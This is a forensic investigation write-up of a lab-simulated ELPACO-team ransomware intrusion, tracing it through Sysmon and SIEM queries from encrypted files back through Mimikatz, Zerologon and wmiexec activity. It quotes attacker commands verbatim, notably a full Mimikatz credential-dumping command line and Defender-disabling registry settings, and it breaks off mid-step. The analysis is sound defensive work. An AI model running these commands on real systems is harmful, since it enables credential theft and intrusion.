

# Investigating ELPACO-team Exploiting Confluence CVE-2023-22527

## Case Summary

On June 2024, a threat actor compromised a corporate network by exploiting a critical Remote Code Execution (RCE) vulnerability (**CVE-2023-22527**) in a public-facing Atlassian Confluence server. The vulnerability, an OGNL injection flaw in the template engine, allowed the attacker to execute arbitrary commands on the server without authentication by sending crafted POST requests to the `/template/aui/text-inline.vm` endpoint.

Upon gaining initial access, the threat actor deployed a **Metasploit Meterpreter** reverse shell payload named HAHLGiDDb.exe , establishing command and control (C2) communications back to their infrastructure. This provided the attacker with an interactive session on the compromised Confluence server, which served as the initial foothold into the network.

To establish persistence and enable hands-on-keyboard access, the threat actor downloaded and silently installed **AnyDesk** remote desktop software on the compromised server. The installation was performed using the `--install` and `--start-with-win` flags, configuring AnyDesk to run as a Windows service under the `NT AUTHORITY\NETWORK SERVICE` account, ensuring it would automatically start on system reboot. The attacker then set an unattended access password, allowing them to reconnect at will without user interaction.

Simultaneously, the threat actor executed a batch script (`u1.bat`) to create a local administrator account named **"noname"** using `net user` and `net localgroup administrators` commands. This provided a secondary persistence mechanism: a dedicated Windows account with full administrative privileges that could be used to log in through AnyDesk with an isolated desktop session, reducing the risk of detection by legitimate administrators.

The threat actor then connected to the server via AnyDesk and authenticated to Windows using the newly created **"noname"** account (Logon Type 10 — Remote Interactive), establishing a clean desktop session separate from any active administrator sessions.

For **privilege escalation**, the attacker leveraged techniques consistent with **Zerologon (CVE-2020-1472)** to target the domain controller, attempting to reset the machine account password and gain domain-level privileges. Additionally, tools such as **Mimikatz** were deployed to dump credentials from LSASS memory, extracting NTLM hashes of domain administrators for use in Pass-the-Hash (PtH) attacks.

During the **discovery** phase, the threat actor utilized **NetScan** (SoftPerfect Network Scanner) to map the internal network, identifying live hosts, open ports, and available shares across the domain. This provided the attacker with a comprehensive view of the environment, including file servers, domain controllers, and other high-value targets for lateral movement.

Using the harvested domain admin credentials, the threat actor performed **lateral movement** across the network using **WMIExec** (Windows Management Instrumentation), executing commands remotely on multiple machines. On each target, **Windows Defender** was disabled remotely to prevent detection of the ransomware payload.

For the **impact** phase, the threat actor deployed **ELPACO-team**, a variant of the **Mimic ransomware** family. The ransomware was delivered as a **7-Zip Self-Extracting Archive (SFX)** that, upon execution, silently extracted its components to a staging directory at `%LocalAppData%\{F6A3737E-E3B0-8956-8261-0121C68105F3}\`. The main orchestrator binary **masqueraded** as a legitimate system process by renaming itself to **`svhostss.exe`** (a deliberate typo-squat of `svchost.exe`), a defense evasion technique (MITRE T1036.005 — Masquerading: Match Legitimate Name or Location).

A defining characteristic of this ransomware variant is its abuse of the legitimate **Everything** search utility (`Everything.exe` ) by Voidtools. Rather than performing slow recursive directory traversal, the ransomware leveraged Everything's ability to query the NTFS Master File Table (MFT) and USN Journal to rapidly index all target files on the system within seconds — a technique that significantly accelerated the encryption process.

Once indexing was complete, the ransomware encrypted files across the compromised systems, appending the **`.ELPACO-team`** extension to each affected file. A ransom note named **`Decryption_INFO.txt`** was dropped in every directory containing encrypted files. The note instructed victims to contact the threat actor via email (`de_tech@tuta.io`) or Telegram (`@Online7_365`) for decryption key negotiation.

<figure><figcaption>
 DetectionLab Network Diagram
</figcaption></figure>

## Initial Triage and Ransomware Discovery

> _Please note that the ransomware binaries (`ELPACO-team.exe` and `svhostss.exe`), as well as the integrated usage of the `Everything.exe` utility for reconnaissance, are part of a custom simulation built specifically for this controlled lab environment. While precisely engineered to mimic the real-world Tactics, Techniques, and Procedures (TTPs)—such as automated Master File Table enumeration, mass file encryption, and registry persistence—these are safe, simulated artifacts created solely for educational and digital forensic research purposes rather than original in-the-wild malware._

The investigation began at the end of the attack lifecycle. Critical servers were found paralyzed, with files appended with the `.ELPACO-team` extension. Across the affected directories, the threat actor distributed a ransom note named `Decryption_INFO.txt`.

<figure><figcaption>
Files encrypted with .ELPACO-team extension
</figcaption></figure>

On the Desktop and across multiple directories under `C:\LabData`, I found files with an unusual extension `.ELPACO-team` appended to their original filenames. I also found a ransom note called `Decryption_INFO.txt` dropped in Desktop and every directory containing encrypted files, which contained Decryption ID ,Telegram User and email addresses for contacting the threat actors.

<figure><figcaption>
The ransom note containing Decryption ID, Telegram user and email addresses for the threat actors
</figcaption></figure>

By filtering for files with the `.ELPACO-team` extension, I discovered that `svhostss.exe` was responsible for encryption,&#x20;

\
`file.extension: "ELPACO-team"`

<figure><figcaption>
svhostss.exe, the process responsible for files encryption
</figcaption></figure>

During the analysis of the infected machines, I found that the ransomware was successfully executed on both FILE-server and BACKUP.

<figure><figcaption>
.ELPACO-team extension only appearing on FILE-server, BACKUP
</figcaption></figure>

Delving deeper into the analysis of the `svhostss.exe` process, I discovered that it established persistence via the registry `Run` key to ensure survival across reboots, while also utilizing the `Everything` utility for rapid file indexing prior to encryption.

`host.name: "file-server" and event.code: (12 or 13) and *svhostss.exe*`&#x20;

<figure><figcaption>
reg.exe adds svhostss.exe to HKLM...\Run for persistence.
</figcaption></figure>

To accelerate the discovery phase and map out targeted files, the ransomware deployed the high-speed search utility `Everything.exe`.

Forensics logs revealed that the initial archive dropped `Everything.exe` into `C:\Users\noname\AppData\Local\Temp\7ZipSfx.000\`, which was subsequently relocated to the ransomware's staging directory under `AppData\Local\F6A3737E-E3B0-8956-8261-0121C68105F3\`.

`host.name: "file-server" and event.code: "11" and  *Everything.exe*`

<figure><figcaption>
<code>ELPACO-team.exe</code> extracting <code>Everything.exe</code> into <code>C:\Users\noname\AppData\Local\Temp\7ZipSfx.000\</code>.
</figcaption></figure>

<figure><figcaption>
ELPACO-team.exe move Everything.exe from the temporary archive directory to the target staging path under AppData\Local&#x3C;GUID>.
</figcaption></figure>

At `10:06:01`, Sysmon Event ID 1 captured `svhostss.exe` spawning `Everything.exe` with targeted command-line arguments designed to locate and log critical data:

`Everything.exe -search C:\LabData -export-txt C:\Users\noname\AppData\Local\Temp\Lab_Extractor_Test\indexed_files.log -quit`&#x20;

`host.name: "file-server" and event.code: "1" and *Everything.exe*`

<figure><figcaption>
Event ID 1 shows <code>svhostss.exe</code> launching <code>Everything.exe</code>
</figcaption></figure>

Within milliseconds, Sysmon Event ID 11 confirmed the creation of indexed\_files.log. By querying the Master File Table (MFT) directly through Everything.exe, the threat actor compiled an exhaustive inventory of files within C:\LabData in fractions of a second, handing over the target list directly to the encryption routine without relying on slow and noisy disk-crawling methods.

`host.name: "file-server" and event.code: "11" and  *Everything.exe*`

<figure><figcaption>
Everything.exe writing the resulting index file <code>indexed_files.log</code> at <code>10:06:01</code>.
</figcaption></figure>

Once `svhostss.exe` was confirmed as the binary responsible for the files encryption, I pivoted backward to identify the parent process that spawned it on FILE-server.

The investigation revealed that `svhostss.exe` was launched directly from an executable residing in the local temporary directory:

`C:\Users\noname\AppData\Local\Temp\7ZipSfx.000\ELPACO-team.exe`

The directory artifact `7ZipSfx.000` indicates that the threat actor staged a 7-Zip Self-Extracting (SFX) archive containing their tooling and unpacked it under the rogue noname profile's Temp path. From there, the binary automatically relocated itself into the user's local `AppData` directory—masquerading under the lookalike name `svhostss.exe` to carry out the final encryption routine.

`host.name: "file-server" and event.code: "1" and process.name: "svhostss.exe"`

<figure><figcaption>
ELPACO-team.exe as the parent process of svhostss.exe
</figcaption></figure>

Continuing the investigation to determine how `ELPACO-team.exe` execution began inside the Temp folder, Event ID 1 logs on FILE-server revealed the exact chronological sequence of the operation:

At 03:05:58, we observed the execution of the initial file located on the attacker's desktop: `C:\Users\noname\Desktop\ELPACO-team.exe`

Interestingly, the Parent Process was `explorer.exe`. This forensic evidence definitively proves that the attacker was connected to the machine via an Interactive RDP Session under the `noname` account and clicked to execute the package directly from the desktop.

Executing this file led to the self-extraction of the package (SFX) into the path: `C:\Users\noname\AppData\Local\Temp\7zPSfx.000\ELPACO-team.exe`

Which subsequently undertook the task of launching the masqueraded copy `svhostss.exe` to begin the encryption process.

`host.name: "file-server" and event.code: "1" and process.name: "ELPACO-team.exe"`

<figure><figcaption>
Execution of extracted <code>ELPACO-team.exe</code> from the Temp directory.
</figcaption></figure>

<figure><figcaption>
Manual execution of <code>ELPACO-team.exe</code> from desktop via <code>explorer.exe</code>.
</figcaption></figure>

To determine when the ransomware package first landed on the host, I investigated file creation events for `ELPACO-team.exe`. Sysmon Event ID 11 confirmed that the binary was dropped directly onto the desktop at `10:05:57`, just seconds before manual execution.

`host.name: "file-server" and event.code: "11" and *ELPACO-team.exe*`

<figure><figcaption>
Creation of <code>ELPACO-team.exe</code> on Desktop via <code>Explorer.EXE</code> at <code>10:05:57</code> .
</figcaption></figure>

To trace how the archive arrived on the desktop, I analyzed outbound network traffic preceding file creation. Sysmon Event ID 3 revealed an outbound SMB connection initiated by `System` (PID 4) to `192.168.30.10:445` at `10:04:27`, confirming the host connected to a remote share to retrieve the ransomware package.

`host.name: "file-server" and event.code: "3" and destination.ip: "192.168.30.10" and destination.port: 445`

<figure><figcaption>
Outbound SMB connection to staging server <code>192.168.30.10:445</code> via <code>System</code>.
</figcaption></figure>

To investigate whether credential harvesting occurred on the host prior to the ransomware execution, I examined suspicious access attempts against sensitive security processes. Sysmon Event ID 10 revealed that ProcessHacker.exe requested access to C:\Windows\system32\lsass.exe at 10:05:16, indicating an unauthorized attempt to dump process memory credentials.

`host.name: "file-server" and event.code: "10" and *lsass.exe*`

<figure><figcaption>
ProcessHacker.exe accessing lsass.exe at 10:05:16.
</figcaption></figure>

Following the handle access to LSASS, I inspected the file system for secondary artifacts of credential dumping. Sysmon Event ID 11 verified that `ProcessHacker.exe` generated a memory snapshot at `C:\Users\noname\Documents\lsass.exe.dmp` at `10:05:29`. This confirms that the access request was immediately weaponized to write an offline credential cache to disk.

`host.name: "file-server" and event.code: "11" and file.extension: "dmp"`

<figure><figcaption>
 writing lsass.exe.dmp to the Documents directory.
</figcaption></figure>

Moving further back in the timeline to understand how the host was prepared for these post-exploitation activities, I investigated the defense evasion phase. Sysmon Event ID 11 captures the initial staging of Defender Control (DC.exe) onto the desktop at 10:04:44. This was followed immediately by its execution and subsequent registry modifications designed to disable security controls before the credential dumping and ransomware staging took place.

`host.name: "file-server" and event.code: "11" and *DC.exe*`

<figure><figcaption>
Creation of DC.exe on Desktop at 10:04:44.
</figcaption></figure>

`host.name: "file-server" and event.code: "11" and process.name: "DC.exe"`&#x20;

<figure><figcaption>
Execution of <code>DC.exe</code> to disable Windows Defender.
</figcaption></figure>

Following execution, DC.exe executed a barrage of 27 registry modifications (Sysmon Event ID 13) within the same second to completely blind host defenses. Key alterations included disabling real-time scanning via the WdFilter service, as well as enforcing group policies to permanently deactivate Windows Defender:

Setting

&#x20;HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\DisableAntiSpyware to 1.&#x20;

Setting

&#x20;HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\DisableAntiVirus to 1.

`host.name: "file-server" and event.code: "13" and process.name: "DC.exe"`

<figure><figcaption>
setting DisableAntiSpyware to 1.
</figcaption></figure>

<figure><figcaption>
DC.exe setting DisableAntiVirus to 1.
</figcaption></figure>

Tracing the origin of the inbound RDP connection back to the pivot host (`VULNSRV`) uncovered a direct transition from discovery to lateral movement. Sysmon Event ID 1 demonstrates that the operator launched an RDP session using SoftPerfect Network Scanner (`netscan.exe`), which directly spawned `mstsc.exe /v:192.168.20.50` at `10:02:40`. This bridges the reconnaissance phase with interactive remote access into `FILE-server`.

event.code: "1" and process.name: "mstsc.exe"

<figure><figcaption>
netscan.exe spawning mstsc.exe targeting FILE-server (192.168.20.50).
</figcaption></figure>

## Internal Network Discovery & Reconnaissance (NetScan)

Having confirmed that an inbound RDP session to `FILE-server` (`192.168.20.50`) originated from `192.168.30.10` via `mstsc.exe` spawned by `netscan.exe`, an immediate investigative question arose: How did the adversary identify the file server within the internal subnet in the first place?

Given that the attacker relied on SoftPerfect Network Scanner (`netscan.exe`) to launch the RDP connection, the initial hypothesis was that an active network sweep had been conducted prior to targeting this specific machine. To test this hypothesis, I queried process creation events on `VULNSRV`:

`host.name: "vulnsrv" and event.code: "1" and process.name: "netscan.exe"`

Executing the query returned four distinct process creation events (Sysmon Event ID 1) on `VULNSRV`, chronologically breaking down into two phases: Deployment & Installation and Active Execution & Pivoting.

**1. Deployment and Installation Routine (09:38)**

The first three events document the staging and installation routine of the scanning utility:

At 09:38:03, the attacker executed the installer binary directly from the user's desktop path (`C:\Users\noname\Desktop\netscan.exe`), interactively spawned via `explorer.exe`.

<figure><figcaption>
Initial manual execution of <code>netscan.exe</code> from <code>C:\Users\noname\Desktop\</code> via <code>explorer.exe</code> at 09:38:03.
</figcaption></figure>

Three seconds later, at 09:38:06, the binary initiated an Inno Setup unpacking sequence, spawning a secondary instance via the temporary installer engine located at `AppData\Local\Temp\2\is-KAK4C0YXFP.tmp\netscan.tmp`.

<figure><figcaption>
Inno Setup execution routine unpacking installer artifacts via <code>netscan.tmp</code> at 09:38:06.
</figcaption></figure>

At 09:38:17, the setup process finalized, and the temporary installer engine automatically launched the newly deployed application from its permanent directory: `C:\Program Files\SoftPerfect Network Scanner\netscan.exe`.

<figure><figcaption>
Post-installation launch of <code>netscan.exe</code> from <code>Program Files</code> spawned by <code>netscan.tmp</code> at 09:38:17.
</figcaption></figure>

**2. Secondary Execution and Lateral Movement Pivot (09:58 – 10:03)**

At 09:58:01, the adversary manually launched `netscan.exe` again from its `Program Files` directory via `explorer.exe`, presumably to resume network reconnaissance or initiate remote connections.

<figure><figcaption>
Secondary manual execution of <code>netscan.exe</code> from <code>Program Files</code> via <code>explorer.exe</code> at 09:58:01.
</figcaption></figure>

As previously established in the `FILE-server` access analysis, the adversary leveraged the scanner's built-in remote desktop capability at 10:02:40 to initiate lateral movement. Sysmon Event ID 1 confirms `netscan.exe` directly spawned `mstsc.exe /v:192.168.20.50`.

Finally, inbound RDP traffic reached port `3389` on `FILE-server` at 10:03:03, establishing the interactive session used to compromise endpoint defenses and dump credentials.

> Seeing `explorer.exe` as the parent process at 09:38:03 immediately caught my attention. It was clear proof that the attacker wasn't just throwing blind terminal commands—they were actively driving the machine through a full graphical desktop (GUI).
>
> A big question instantly popped into my head: _How did they get interactive GUI access in the first place, especially if this all started from a headless web compromise?_
>
> Rather than jumping ahead and breaking my chronological workflow, I noted this down as a critical checkpoint. I decided to keep tracing the current discovery phase and let the timeline naturally lead me back to exactly how they established this desktop access.

Having established the execution timeline for `netscan.exe`, two pivotal questions remained:

1. Confirming Network Reconnaissance: Did the attacker conduct an active network sweep using `netscan.exe`, and which specific subnets and ports did they target?
2. Investigating the 20-Minute Window: What activities and processes were executed between the initial launch at 09:38 and the secondary execution at 09:58 UTC?

To answer these questions, the next investigative step is examining network connection logs (Sysmon Event ID 3) associated with `netscan.exe` to trace target destinations, while concurrently querying process creation events (Sysmon Event ID 1) across this 20-minute timeframe to detect any concurrent enumeration or credential access attempts.

### Confirming Network Reconnaissance

To verify whether the adversary conducted an active network sweep using the deployed scanner, I queried network connection events (Sysmon Event ID 3) associated with `netscan.exe` on `VULNSRV`:

`host.name: "vulnsrv" and event.code: "3" and process.name: "netscan.exe"`

The query returned 68 connection events, confirming active internal reconnaissance across the environment.

<figure><figcaption>
Sysmon Event ID 3 query showing 68 network connection events and revealing two distinct scanning spikes at 09:39 and 09:58.
</figcaption></figure>

Analyzing these network connection events generated by `netscan.exe` revealed that the tool executed an active, targeted sweep against the subnet `192.168.20.0/24`. Rather than initiating a wide, noisy port scan, the utility focused on a predefined set of key operational and administrative ports: 88 (Kerberos), 135 (RPC), 137 (NetBIOS), 445 (SMB), 3389 (RDP), 6160, and 161 (SNMP).

The scan systematically identified and interacted with five live endpoints across the subnet:

* `192.168.20.1` (Network Gateway):
  * Probed UDP port 161 (SNMP) for network device profiling.
  * Probed UDP port 137 (NetBIOS Name Service) and port 5353 (mDNS) for hostname identification.
* `192.168.20.10` (Domain Controller - DC):
  * Probed TCP port 88 (Kerberos), identifying its function as the central domain authentication service.
  * Probed TCP ports 135 (RPC) and 445 (SMB) for administrative interfaces and share discovery.
  * Probed TCP port 3389 (RDP) and UDP port 137 (NetBIOS).
* `192.168.20.40` (BACKUP Server):
  * Probed TCP port 445 (SMB) for file shares.
  * Probed TCP port 3389 (RDP) for remote interactive session availability.
  * Probed TCP port 6160, standard for backup management solutions (such as Veeam Backup Server).
  * Probed TCP port 135 (RPC) and UDP port 137 (NetBIOS).
* `192.168.20.50` (File Server - `FILE-server`):
  * Probed TCP port 445 (SMB) for network file shares.
  * Probed TCP port 3389 (RDP), establishing the pathway later used directly from `netscan.exe` to pivot.
  * Probed TCP port 135 (RPC) and UDP port 137 (NetBIOS).
*   `192.168.20.60` (Database Host - SQL Server):

    * Probed TCP ports 445 (SMB), 3389 (RDP), and 135 (RPC).
    * Probed UDP port 137 (NetBIOS) for network resolution.

<figure><figcaption>
Detailed Sysmon Event ID 3 logs showing the targeted ports (including 3389 and 445) enumerated against <code>192.168.20.50</code> (<code>FILE-server</code>).
</figcaption></figure>

This telemetry confirms how the adversary constructed a complete map of the internal infrastructure within seconds. By identifying the Domain Controller (`.10`), the Backup Server (`.40`), and `FILE-server` (`.50`), the threat actor pinpointed `FILE-server` as an immediate target exposing both SMB (445) and an open RDP listener (3389). Once verified, this finding enabled the direct lateral movement session via `mstsc.exe`.

#### Uncovering the 20-Minute Gap: Escalation, Domain Compromise, and System Reboot

To understand what transpired between the completion of the first network scan at 09:39 and the secondary execution at 09:58, I initially queried all process creation events (Sysmon Event ID 1) across this specific timeframe:

`host.name: "vulnsrv" and event.code: "1" and @timestamp >= "2026-09-23T09:39:50Z" and @timestamp <= "2026-09-23T09:58:00Z"`

The query returned 618 process creation events. This volume included substantial background system noise, automated services, and daemon activity that complicated direct chronological analysis.

Recalling that the adversary operated via an interactive desktop session and executed `netscan.exe` directly under the `noname` user context, I refined the search query to focus strictly on this interactive account:

`host.name: "vulnsrv" and event.code: "1" and user.name: "noname" and @timestamp >= "2026-09-23T09:39:50Z" and @timestamp <= "2026-09-23T09:58:00Z"`&#x20;

Filtering by `user.name: "noname"` successfully isolated the noise, narrowing the dataset to 67 high-fidelity events. This optimization immediately brought the adversary’s actions into sharp focus, exposing a rapid progression of Active Directory exploitation, credential harvesting, persistence configuration, and a deliberate host reboot.

<figure><figcaption>
Initial query returning 618 process creation events across the 20-minute gap prior to user filtering.
</figcaption></figure>

After filtering the telemetry to isolate the suspicious activity of the user `noname` within the 20-minute gap (09:39 to 09:58 UTC), I tracked the events in ascending chronological order. The first executable launched by the threat actor following the initial network reconnaissance phase was `rpcdump.exe` at 09:41:22 UTC, spawned via `cmd.exe` from a working directory located on the desktop under `C:\Users\noname\Desktop\Attacker\`.

`host.name: "vulnsrv" and event.code: "1" and process.name: "rpcdump.exe"`&#x20;

<figure><figcaption>
RUN rpcdump.exe
</figcaption></figure>

To understand how this tool landed on the system, I queried Sysmon Event ID 11 (File Creation). The records confirmed that `rpcdump.exe` was transferred directly through the active interactive file transfer feature of `AnyDesk.exe`. This answered an earlier question regarding how the adversary maintained interactive GUI control over the compromised host, while leaving the determination of how AnyDesk was initially deployed for a later investigation phase.

`host.name: "vulnsrv" and event.code: "11" and file.name: "CheckVuln.bat"`&#x20;

<figure><figcaption>
Transfer the file to the infected device via file transfer service in anydesk.
</figcaption></figure>

Alongside the binary, the staging activity revealed an accompanying batch script named `CheckVuln.bat` dropped into the same folder. Opening and inspecting the script's code directly confirmed it was the primary execution driver: it executed `Release\rpcdump.exe` against the user-supplied Domain Controller IP (`192.168.20.10`), piping the output into `findstr` to look for the print service interfaces `MS-RPRN` and `MS-PAR`.

<figure><figcaption>
Contents of Checkvuln.bat file.
</figcaption></figure>

To verify whether this probing succeeded, I examined network telemetry via Sysmon Event ID 3. Although the tool established a successful TCP connection to the DC on port 135 (RPC Endpoint Mapper), the absence of subsequent connections to high dynamic RPC ports confirmed that the targeted print services were closed and unresponsive on the target. Recognizing that the print spooler vector was completely unavailable, the adversary immediately abandoned this approach and pivoted to exploiting the Zerologon vulnerability just minutes later.

`host.name: "vulnsrv" and event.code: "3" and destination.ip: "192.168.20.10" and destination.port: 135`

<figure><figcaption>
RPC connection to DC on port 135.
</figcaption></figure>

Following the unsuccessful probing of the print spooler interfaces, the adversary immediately pivoted their tactics to target the Domain Controller via a much more critical vector: the Zerologon vulnerability (CVE-2020-1472). At 09:42:08 UTC, the attacker launched `zero.exe` directly from the interactive command prompt within their staging directory (`C:\Users\noname\Desktop\zero.exe`). The execution syntax—`zero.exe DC DC administrator -c "whoami"`—indicated a deliberate attempt to exploit the cryptographic flaw in the Netlogon Remote Protocol (MS-NRPC), zero out the domain controller computer account password (`DC$`), and immediately execute remote reconnaissance commands as Administrator.

`host.name: "vulnsrv" and event.code: "1" and process.name: "zero.exe"`&#x20;

<figure><figcaption>
run zero.exe to exploite Zerologon vulnerability (CVE-2020-1472).
</figcaption></figure>

Network telemetry recorded under Sysmon Event ID 3 clearly reflected the signature two-stage connection pattern typical of Zerologon exploits. At 09:42:10.113 UTC, `zero.exe` initially queried the RPC Endpoint Mapper on the Domain Controller (`192.168.20.10:135`), followed milliseconds later (at 09:42:10.133 UTC) by establishing an active TCP connection to the dedicated Netlogon service port (`DestinationPort: 5007`).

`host.name: "vulnsrv" and event.code: "3" and process.name: "zero.exe"`&#x20;

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

However, corroborating host telemetry from the Domain Controller (`DC.detectionlab.local`) confirmed that the exploit ultimately failed to achieve execution or compromise the domain. Reviewing the Domain Controller’s security and system event logs revealed no record of Event ID 4742 (which would have indicated a reset or alteration of the computer account password), but instead captured Netlogon Event ID 5836 logged under the system channel. This event indicated that the Domain Controller detected and blocked the non-compliant, vulnerable Netlogon secure channel connection attempted by the adversary's tool. Facing an unyielding target across both the Print Spooler and Zerologon vectors, the adversary abandoned direct remote exploitation and was forced to shift toward local credential dumping on `vulnsrv` to acquire valid administrator credentials.

<figure><figcaption>
Block netlogon from auditing in DC.
</figcaption></figure>

After verifying the failure of the Zerologon attempt and the adversary’s inability to compromise the Domain Controller directly, I shifted my focus to track their immediate next steps. It became evident that the attacker resorted to an alternative strategy: harvesting credentials locally from system memory (`Credential Dumping`) to uncover high-privileged accounts for lateral movement.

While investigating file creation events (`Sysmon Event ID 11`), I observed an abrupt staging activity occurring at `09:42:25 UTC`. The adversary dropped an entire folder named `mimikatz` containing both 32-bit and 64-bit architectures, alongside a batch execution script named `!start.cmd`, directly into `C:\Users\noname\Desktop\` through an interactive `AnyDesk.exe` session.&#x20;

`host.name: "vulnsrv" and event.code: "11" and process.name: "AnyDesk.exe"`

<figure><figcaption>
Staging of the <code>mimikatz</code> directory structure via <code>AnyDesk.exe</code> (Sysmon Event ID 11).
</figcaption></figure>

<figure><figcaption>
Creation of the automated execution script <code>!start.cmd</code> on the desktop (Sysmon Event ID 11).
</figcaption></figure>

Inspecting the contents of `!start.cmd`, I discovered that it was crafted to automate the entire extraction routine while minimizing visual artifacts. The script adjusted the console geometry (`mode con: cols=50 lines=30`), disabled command echoing, created an output directory (`md !logs`), and launched the 64-bit binary with an explicit command sequence: `.\mimikatz\x64\mimikatz.exe "privilege::debug" "log .\!logs\Result.txt" "sekurlsa::logonPasswords" "token::elevate" "lsadump::sam" exit`.

<figure><figcaption>
Content of !start.cmd file.
</figcaption></figure>

systematically correlated this execution across the host event logs to validate its direct interaction with kernel memory and authentication databases:

*   Privilege Escalation & Memory Access: The executable requested `SeDebugPrivilege` to circumvent memory protection. Examining process access records (`Sysmon Event ID 10`), I uncovered the primary evidence at `09:50:37.212 UTC`, where `mimikatz.exe` (PID 8844) opened a direct handle into `C:\Windows\system32\lsass.exe` to harvest plaintext credentials and NTLM hashes from active logon sessions.\
    \
    `host.name: "vulnsrv" and event.code: "1" and "lsadump::sam"`  

    <figure><figcaption>
Detailed command-line parameters for <code>mimikatz.exe</code> including <code>lsadump::sam</code> and <code>sekurlsa::logonPasswords</code> (Sysmon Event ID 1).
</figcaption></figure>

    `host.name: "vulnsrv" and event.code: "10" and "lsass.exe" and "mimikatz.exe"`  

    <figure><figcaption>
Process access handle opened by <code>mimikatz.exe</code> targeting <code>lsass.exe</code> (Sysmon Event ID 10).
</figcaption></figure>

*   Cryptographic & Identity Library Loading: Module load records (`Sysmon Event ID 7`) showed that `mimikatz.exe` dynamically loaded 126 DLLs. Key loaded images included core cryptographic providers (`rsaenh.dll`, `bcrypt.dll`) necessary for decrypting harvested structures, authentication providers (`sspicli.dll`, `logoncli.dll`), and `vaultcli.dll` used to target Windows Vault secrets.\
    \
    `host.name: "vulnsrv" and event.code: "7" and process.name: "mimikatz.exe"` 

    <figure><figcaption>
Dynamic loading of authentication and cryptographic modules such as <code>vaultcli.dll</code> (Sysmon Event ID 7).
</figcaption></figure>

*   Local SAM Database Querying: Following token elevation to `SYSTEM`, registry event logs (`Sysmon Event ID 13`) captured operations interacting directly with account subkeys under `HKLM\SAM\SAM\Domains\Account\Users\000003F2` (corresponding to local RID 1010).\
    \
    `host.name: "vulnsrv" and event.code: "13" and *SAM*` \
     

    <figure><figcaption>
Registry queries against SAM domain account subkeys by <code>lsass.exe</code> (Sysmon Event ID 13).
</figcaption></figure>

    <figure><figcaption></figcaption></figure>

    *   Artifact Generation & Attacker Verification: At `09:42:41.993 UTC`, `mimikatz.exe` created the output log `C:\Users\noname\Desktop\!logs\Result.txt` (`Sysmon Event ID 11`). Moments later, at `09:50:54.558 UTC`, process creation logs (`Sysmon Event ID 1`) recorded the adversary launching `notepad.exe .\!logs\Result.txt` to manually review the stolen hashes before initiating their lateral movement phase.\
        \
        `host.name: "vulnsrv" and event.code: "11" and file.name: "Result.txt"` \
         

        <figure><figcaption>
Creation of the output folder and credentials log <code>Result.txt</code> (Sysmon Event ID 11).
</figcaption></figure>

        \
        `host.name: "vulnsrv" and event.code: "1" and process.name: "notepad.exe" and process.command_line: *Result.txt*` 

<figure><figcaption>
Execution of <code>notepad.exe</code> to inspect the harvested credentials in <code>Result.txt</code> (Sysmon Event ID 1).
</figcaption></figure>

Upon observing that the adversary opened `Result.txt` via `notepad.exe` at `09:50:54 UTC` to inspect the harvested credentials, I hypothesized that their immediate objective would be weaponizing these stolen NTLM hashes for lateral movement. I anticipated that the attacker would attempt a Pass-the-Hash attack, leverage remote execution utilities such as `psexec`, `wmiexec`, or `smbexec`, or `secretsdump` or utilize built-in commands like `net use` and `wmic` to pivot deeper into the network toward the Domain Controller.

\
To test this hypothesis and uncover any subsequent malicious activity directly following the credential dumping phase, I formulated a targeted query in the SIEM to track process creation events immediately succeeding the file inspection:

`host.name: "vulnsrv" and event.code: "1" and @timestamp > "2026-09-23T09:51:00Z" and (process.name: ("psexec.exe" or "wmiexec.exe" or "smbexec.exe" or "secretsdump.exe") or process.command_line: (*`_`psexec*`_`or *`_`wmiexec*`_` ``or *`_`smbexec*`_` ``or *`_`secretsdump*`_`))`

The query results confirmed the adversary launched `secretsdump.exe` at `09:51:54 UTC` targeting the Domain Controller (`192.168.20.10`) with the stolen NTLM hash, followed by `wmiexec.exe` at `09:57:17 UTC` to initiate an interactive remote command session. However, interspersed between these attempts, an unexpected administrative activity stood out: the attacker was executing native `net.exe` commands to establish an unauthenticated network share at `09:54:43 UTC`.

<figure><figcaption>
Process creation events revealing execution of <code>secretsdump.exe</code>
</figcaption></figure>

<figure><figcaption>
Create share folder with net share
</figcaption></figure>

<figure><figcaption>
Process creation events revealing execution of <code>wmiexec.exe</code>
</figcaption></figure>

Seeing that the adversary established a remote WMI connection to the Domain Controller via `wmiexec.exe` at `09:57:17 UTC`, my primary objective was to immediately pivot to the Domain Controller's logs to uncover the exact commands and operations executed during that remote session. However, before fully closing this host's investigation, I noted that the unexpected `net share` command executed at `09:54:43 UTC` required its own verification. I decided to first inspect the commands executed on the Domain Controller through this active session, and subsequently return to investigate the creation of this local network share and why the attacker staged it.

To trace the adversary's actions following the remote authentication via `wmiexec.exe`, I shifted the investigation to the Domain Controller logs. Because `wmiexec` relies on the Windows Management Instrumentation service to spawn remote commands, any invoked process on the target host will typically execute as a child of the WMI provider host process (`WmiPrvSE.exe`). I formulated the following query to capture all process creation events derived from this provider:

`host.name: "dc" and event.code: "1" and process.parent.name: "WmiPrvSE.exe"`&#x20;

<figure><figcaption>
Timeline of process creation events on the Domain Controller (<code>dc</code>) spawned directly under <code>WmiPrvSE.exe</code> (Sysmon Event ID 1).
</figcaption></figure>

The query returned five sequential process creation events directly reflecting the signature behavior of `wmiexec` (invoking `cmd.exe /Q /c` and redirecting `stdout`/`stderr` to temporary files located on the administrative share `\\127.0.0.1\ADMIN$\__...`):

*   Session Validation & Probing (`09:57:18` – `09:57:20 UTC`):\
    The remote utility automatically executed initial reconnaissance commands (`cmd.exe /Q /c cd \ ...` followed by `cmd.exe /Q /c cd ...`) to verify shell responsiveness and establish the working directory context.\
     

    <figure><figcaption></figcaption></figure>
*   Domain Account Creation (`09:57:29.167 UTC`):

    The attacker initiated persistence at the domain level by executing:\
    \
